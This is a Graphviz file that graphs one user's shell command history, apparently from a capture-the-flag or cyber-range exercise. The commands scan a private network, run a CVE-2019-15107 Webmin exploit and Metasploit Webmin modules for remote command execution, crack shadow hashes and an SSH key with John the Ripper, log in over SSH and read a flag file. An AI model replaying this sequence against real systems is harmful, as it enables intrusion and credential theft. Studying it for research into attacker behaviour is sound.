 // creating graph for user: 86
digraph {
	node [shape=box]
	0 [label="curl ipconfig.co U"]
	1 [label="dig +short myip.opendns.com U"]
	2 [label="nmap 172.18.1.5 -p 0-65535 M0 "]
	3 [label="nc 172.18.1.6:10000 U"]
	4 [label="nc 172.18.1.6 10000 U"]
	5 [label="wat U"]
	6 [label="nc 172.18.1.5 10000 U"]
	7 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	8 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 A13 "]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id A13 "]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' A10 A13 "]
	16 [label="ip a U"]
	17 [label="nmap 172.18.1.5 V0 "]
	18 [label="nmap 172.18.1.0/24 A0 A1 "]
	19 [label="nmap 172.18.0.0/16 A0 A1 "]
	20 [label="nmap 172.18.0.0/16 A0 A1 "]
	21 [label="msf U"]
	22 [label="metaflac U"]
	23 [label="msfconsole M2 "]
	24 [label="use exploit/linux/http/webmin_backdoor M8 "]
	25 [label="msfconsole V2 "]
	26 [label="search webmin M3 "]
	27 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	28 [label="show targets A5 "]
	29 [label="set target 0 A6 "]
	30 [label="set target 1 A6 "]
	31 [label="show options M5 "]
	32 [label="set RHOSTS 172.15.1.5 M6 "]
	33 [label="set RPORT 10000 V6 "]
	34 [label="show A5 "]
	35 [label="show options V5 "]
	36 [label="exploit V8 "]
	37 [label="quit U"]
	38 [label="msfconsole V2 "]
	39 [label="search webmin V3 "]
	40 [label="use exploit/unix/webapp/webmin_show_cgi_exec V8 "]
	41 [label="show A5 "]
	42 [label="show targets A5 "]
	43 [label="show options V5 "]
	44 [label="set RHOST 172.18.1.5 A6 "]
	45 [label="set USERNAME dmin A6 "]
	46 [label="set USERNAME admin A6 "]
	47 [label="exploit V8 "]
	48 [label="set PASSWORD admin A6 "]
	49 [label="exploit V8 "]
	50 [label="ip a U"]
	51 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	52 [label="show targets A5 "]
	53 [label="set TARGET 0 A6 "]
	54 [label="show options V5 "]
	55 [label="set LHOST 10.1.135.83 V6 "]
	56 [label="set RHOST 172.18.1.5  A6 "]
	57 [label="exploit V8 "]
	58 [label="set TARGET 1 A6 "]
	59 [label="ssh eve@10.1.17.4 M16 "]
	60 [label="man xclip U"]
	61 [label="xclip -selection c -o > .ssh/id_rsa A16 "]
	62 [label="vim .ssh/id_rsa A16 "]
	63 [label="vim .ssh/id_rsa.pub A16 "]
	64 [label="ssh eve@10.1.17.4 V16 "]
	65 [label="chmod 0600 /root/.ssh/id_rsa M15 "]
	66 [label="ssh eve@10.1.17.4 V16 "]
	67 [label="ssh eve@10.1.17.4 V16 "]
	68 [label="nc -l 12345 U"]
	69 [label="ip a U"]
	70 [label="vim shadow U"]
	71 [label="vim passwd U"]
	72 [label="unshadow shadow passwd U"]
	73 [label="unshadow passwd shadow U"]
	74 [label="unshadow passwd shadow > mypasswd U"]
	75 [label="john mypasswd A14 "]
	76 [label="base64 -d U"]
	77 [label="cat .ssh/id_rsa M12 "]
	78 [label="cat .ssh/id_rsa.pub V12 "]
	79 [label="ls A10 "]
	80 [label="cp ~/.ssh/id_rsa A16 "]
	81 [label="cp ~/.ssh/id_rsa id_rsa A16 "]
	82 [label="localte ssh2john.py A14 A16 "]
	83 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	84 [label="python ssh2john.py id_rsa M13 "]
	85 [label="python ssh2john.py id_rsa > ssh.john V13 "]
	86 [label="john ssh.john A14 A16 "]
	87 [label="john ssh.john A14 A16 "]
	88 [label="cat .john/john.rec A1 A9 A11 A12 A14 A17 "]
	89 [label="fg U"]
	90 [label="john ssh.john A14 A16 "]
	91 [label="wget https://github.com/praetorian-code/hob0rules/blob/master/wordlists/rockyou.txt.gz U"]
	92 [label="cat rockyou.txt.gz A1 A9 A11 A12 A17 "]
	93 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	96 [label="ls /usr/share/wordlists/rockyou.txt A10 "]
	97 [label="ll /usr/share/wordlists/rockyou.txt U"]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	99 [label="john ssh.john A14 A16 "]
	100 [label="locate rocky A1 A9 A10 A11 A12 A17 "]
	101 [label="ls /usr/share/wordlists/ A10 "]
	102 [label="cd me U"]
	103 [label="ls /usr/share/wordlists/metasploit A10 "]
	104 [label="cd U"]
	105 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py A14 A16 "]
	107 [label="ll U"]
	108 [label="ls A10 "]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn V13 "]
	110 [label="diff ssh.john ssh2.jogn A14 A16 "]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	112 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	113 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	114 [label="ssh eve@10.1.17.4 V16 "]
	115 [label="nice U"]
	116 [label="ls A10 "]
	117 [label="cd top-secret/ U"]
	118 [label="ls A10 "]
	119 [label="cat flag.txt M17 "]
	120 [label="ll /usr/share/wordlists/rockyou.txt U"]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	122 [label="exit U"]
	123 [label="john ssh.john -wordlist=/usr/share/wordlists/rockyou.txt A14 A16 "]
	124 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	rankdir=LR
}
